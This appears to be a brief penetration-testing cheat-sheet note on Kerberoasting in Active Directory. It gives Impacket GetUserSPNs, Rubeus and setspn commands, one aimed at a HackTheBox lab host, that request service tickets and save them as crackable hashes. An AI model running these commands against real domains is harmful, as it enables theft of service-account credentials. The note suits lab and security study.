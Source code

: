 Kerberoast authentication happens when a user wants to interact with a server that is hosting a service. E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs DOMAIN/USER:PASSWORD@DC_IP {-dc-ip} DC_IP -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```
GetUserSPNs.py rebound.htb/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip 10.129.229.114 -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

Create an SPN:

```cmd
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```